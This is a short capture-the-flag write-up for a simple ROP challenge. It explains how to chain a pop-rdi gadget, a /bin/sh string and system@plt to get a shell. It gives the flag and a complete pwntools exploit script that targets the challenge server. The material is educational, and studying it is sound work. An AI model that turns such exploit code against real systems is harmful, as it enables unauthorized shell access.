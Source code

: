 # See For Yourself

As the binary name suggests, it's very simple ROP. The binary has the /bin/sh string in it, and it has system in its plt because it calls system(NULL). So, all we need to do is pop rdi + /bin/sh address + retgadget + system@plt (retgadget for stack alignment remotely, as always.)

#### Flag: flag{ROP_ROOP_OOP_OOPS}
```py
from pwn import *
context.arch = 'amd64'
poprdi = 0x0000000000401273
binsh = 0x402008
system = 0x401080
ret = 0x40101a
e = ELF("./simplerop")
p = e.process() if args.LOCAL else remote('chal.ctf.b01lers.com', 1008)
NUM_TO_RET = 8
p.clean()
payload = b'A'*NUM_TO_RET
payload += flat(poprdi,binsh,ret,system)
pause()
p.sendline(payload)
p.interactive()
```
